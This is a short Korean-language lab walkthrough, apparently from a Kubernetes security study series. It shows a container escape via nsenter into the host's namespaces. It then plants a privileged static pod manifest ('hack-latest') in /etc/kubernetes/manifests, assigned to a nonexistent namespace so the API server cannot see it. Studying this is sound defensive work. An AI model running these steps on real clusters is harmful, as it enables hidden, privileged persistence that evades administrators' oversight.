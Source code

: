 다른 터미널에서 아래 명령어 실행
```bash
kubectl exec -it sith-infiltrator -- /bin/bash
```

다시 노드에 진입
```bash
nsenter -t 1 -a bash

```

노드 자원에 대한 무제한 접근 권한을 확보했으므로, 이제 `/etc/kubernetes/manifests` 디렉터리로 이동하여 기존 내용을 확인
```bash
cd /etc/kubernetes/manifests/
ls -la
```

그리고나서 커스텀 히든 파드를 생성한다.
```bash
cat << EOF > hack-latest.yaml
apiVersion: v1
kind: Pod
metadata:
  name: hack-latest
  hostNetwork: true
  # define in namespace that doesn't exist so
  # workload is invisible to the API server
  namespace: doesnt-exist
spec:
  containers:
  - name: hack-latest
    image: sublimino/hack:latest
    command: ["/bin/sh"]
    args: ["-c", "while true; do sleep 10;done"]
    securityContext:
      privileged: true
EOF
```

확인 차원에서, `crictl ps` 명령어를 실행하여 `hack-latest`라는 새 컨테이너가 노드에서 실행 중인지 확인해 보자. 
hack-latest 컨테이너가 나타나기까지 몇 초 걸릴 수 있음

```bash
crictl ps
```

![img_12.png](../assets/8week/8week1-13.png)
